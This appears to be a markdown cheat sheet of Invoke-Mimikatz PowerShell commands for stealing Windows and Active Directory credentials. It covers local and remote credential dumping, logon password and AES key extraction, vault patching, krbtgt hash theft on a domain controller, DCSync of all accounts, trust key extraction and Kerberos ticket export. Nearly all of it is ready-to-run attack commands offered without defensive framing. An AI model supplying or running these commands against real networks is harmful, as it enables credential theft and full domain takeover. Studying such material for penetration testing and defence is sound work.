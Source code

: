 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

AES cred
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Credential Vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```
Use the DCSync feature for getting hash
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Trust key
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

Export all ticket
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

